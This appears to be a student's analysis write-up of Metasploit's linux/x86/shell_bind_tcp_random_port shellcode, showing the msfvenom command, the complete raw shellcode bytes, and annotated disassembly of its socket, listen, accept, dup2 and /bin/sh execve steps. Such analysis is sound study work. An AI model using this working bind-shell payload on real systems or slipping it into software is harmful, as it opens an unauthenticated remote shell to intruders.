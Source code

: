 # linux/x86/shell_bind_tcp_random_port
- Analysis by: William Moody
- PA-25640

First I dumped the shellcode:
`msfvenom -p linux/x86/shell_bind_tcp_random_port -f c`

Next I got a graph with libemu:
```
echo -ne "\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80\x52\x50\x89\xe1\xb0\x66\xb3\x04\xcd\x80\xb0\x66\x43\xcd\x80\x59\x93\x6a\x3f\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\xcd\x80" | sctest -vvvv -Ss 100000 -G linux-x86-shell_bind_tcp_random_port.dot
dot linux-x86-shell_bind_tcp_random_port.dot -Tpng -o linux-x86-shell_bind_tcp_random_port.png
```

![](img/linux-x86-shell_bind_tcp_random_port.png)

Next I dissasembled the shellcode with ndisasm. This time the shellcode was accurate.
`echo -ne ... | ndisasm -u - -b32 -p intel`

Finally I started analyzing the workings with gdb.

```
b*main+286
r
stepi
```

First the shellcode creates a socket with the socketcall syscall and the
SYS_SOCKET subcall.

```
int socketcall(0x1, *args);
int sockfd = socket(int domain, int type, int protocol);
```

![](img/bind_socket.png)

```
00000000  31DB              xor ebx,ebx           ; EBX = 0
00000002  F7E3              mul ebx				
00000004  B066              mov al,0x66           ; EAX = 0x66 (SYS_SOCKETCALL)
00000006  43                inc ebx               ; EBX = 0x1 (SYS_SOCKET)
00000007  52                push edx              ; int protocol = 0x0 (default)
00000008  53                push ebx              ; int type = 0x1 (SOCK_STREAM)
00000009  6A02              push byte +0x2        ; int domain = 0x2 (AF_INET)
0000000B  89E1              mov ecx,esp           ; *args = ESP
0000000D  CD80              int 0x80              ; socketcall() -> socket()
```

Next, the shellcode makes another socketcall, this time it is with the 
SYS_LISTEN subcall. Since the socket was not bound to any port, this will
make the socket listen on an arbitrary (free) port.

```
int socketcall(0x4, *args);
int listen(sockfd, 0);
```

![](img/bind_listen.png)

```
0000000F  52                push edx              ; int backlog = 0
00000010  50                push eax              ; int sockfd = result of socket()
00000011  89E1              mov ecx,esp           ; *args = ESP
00000013  B066              mov al,0x66           ; EAX = 0x66 (SYS_SOCKETCALL)
00000015  B304              mov bl,0x4            ; EBX = 0x4
00000017  CD80              int 0x80              ; socketcall() -> listen()
```

Next, another socketcall (SYS_ACCEPT). This will block until a client connects
to the socket.

```
int socketcall(int 0x5, *args);
int accept();
```

![](img/bind_accept.png)

```
00000019  B066              mov al,0x66           ; EAX = 0x66 (SYS_SOCKETCALL)
0000001B  43                inc ebx               ; EBX = 0x5 (SYS_ACCEPT)
0000001C  CD80              int 0x80              ; socketcall() -> accept()
```

For testing I connected to the socket with netcat.

![](img/bind_netcat.png)

Once a client connected to the socket, the following shellcode will execute.
It will duplicate the file descriptors 0-ECX in a loop (STDIN, STDOUT, STDERR)
so that all I/O to the shell will be controlled by the client. 

```
int dup2(int oldfd, int newfd);
```
  
![](img/bind_dup2.png)

```
0000001E  59                pop ecx               ; ECX = sockfd
0000001F  93                xchg eax,ebx          ; EBX = 4
00000020  6A3F              push byte +0x3f
00000022  58                pop eax               ; EAX = 0x3f (SYS_dup2)
00000023  CD80              int 0x80              ; dup2()
00000025  49                dec ecx
00000026  79F8              jns 0x20
```

And finally "/bin/sh" is executed and the client should have a shell now.

```
int execve(const char *pathname, char *const argv[], char *const envp[]);
```

![](img/bind_execve.png)

```
00000028  B00B              mov al,0xb            ; EAX = 0xb (SYS_EXECVE)
0000002A  682F2F7368        push dword 0x68732f2f ; "hs//"
0000002F  682F62696E        push dword 0x6e69622f ; "nib/"
00000034  89E3              mov ebx,esp           ; argv[] = *"/bin//sh"
00000036  41                inc ecx               ; envp[] = nullptr
00000037  CD80              int 0x80              ; execve()
```
